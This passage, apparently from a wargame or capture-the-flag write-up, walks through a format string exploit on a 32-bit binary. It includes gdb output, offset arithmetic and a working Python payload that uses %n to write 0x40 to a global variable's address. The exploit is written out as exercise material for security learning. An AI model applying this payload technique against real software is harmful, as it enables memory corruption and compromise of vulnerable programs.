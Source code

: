 
So far, we are using values in the stack that we did not choose to use. But the buffer that `prinf` uses is on the stack ! We can actually choose where we want to write in the process memory :

```
(gdb) run < <(python -c 'print("\xEF\xBE\xAD\xDE" + "%x%x%x%n")')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level3/level3 < <(python -c 'print("\xEF\xBE\xAD\xDE" + "%x%x%x%n")')

Program received signal SIGSEGV, Segmentation fault.
0xb7e7312c in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb) x/2i $eip
=> 0xb7e7312c <vfprintf+19020>:	mov    %edi,(%eax)
   0xb7e7312e <vfprintf+19022>:	jmp    0xb7e6ee8a <vfprintf+1962>
(gdb) i r edi
edi            0x17	23
(gdb) i r eax
eax            0xdeadbeef	-559038737
```

I choosed the format specifier "%x%x%x%n" because we have to *advance* printf's internal stack pointer by 3, so `%n` would write to our `0xDEADBEEF` address.

## Putting it together

- Instead of writing to `0xDEADBEEF`, we can write to the global variable stored at address `0x804988c`.
- We can use the `%n` specifier to store the numbers of character that printf processed.
- We need to write the value `0x40` to address `0x804988c`.

A character is 1 byte wide. Our exploit need to make `printf` process `0x40 (64)` characters before the `%n` specifier.

- The address is 32 bit, so 4 bytes wide.
- Using these conversion specifiers `%08x%08x%08x%n` will output `8*3=24` bytes. Note the usage of a *field width* and *padding characters* to make sure our output is constant in size.

We find how many junk characters we need to fill :

```
x + 4 + 24 = 64
<=> x = 36
```

This is the layout of our exploit in the stack and how many characters will be process by `printf` :

```
[global variable address][junk characters][specifiers]
            4                   36             24
```

Leads to the following python command :

```
python -c 'print("\x8c\x98\x04\x08" + "#"*36 + "%08x%08x%08x%n")'
```
